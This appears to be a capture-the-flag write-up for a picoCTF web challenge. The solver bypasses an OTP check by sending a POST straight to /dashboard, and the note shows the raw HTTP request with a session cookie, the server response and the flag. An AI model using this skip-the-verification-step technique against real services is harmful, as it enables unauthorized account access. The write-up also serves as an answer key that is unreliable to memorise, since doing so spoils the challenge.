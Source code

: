 Additional details will be available after launching your challenge instance.
Try [here](http://titan.picoctf.net:58071/) to find the flag

### Hints

- Try using burpsuite to intercept request to capture the flag.
- Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.


## Solved

- hacer un POST /dashboard desde el inicio

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:63863
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:63863/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Cookie: session=.eJxNjEsKAyEQBe_iOosW56O5jLTaMiGOih9CCLn7uHOWVbxXP2Zf7cue7EgB2YPZWrxu6U1xOGMN0Kpwd7B6C7R4cAq5dCh2u4ASm_DKAR8_30PQEU-aqdTyAC43yWFgxlo_qbg5yEeKpGM_DZVpe6VyD_0vDi8yxg.Z9SFqg.N0g4uzAB9l8Cow0bdmPa-0_FV5Y
Connection: keep-alive



HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Fri, 14 Mar 2025 19:38:46 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 105
Vary: Cookie
Connection: close

Welcome, hola you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_c94b61ac}
```

picoCTF{#0TP_Bypvss_SuCc3$S_c94b61ac}
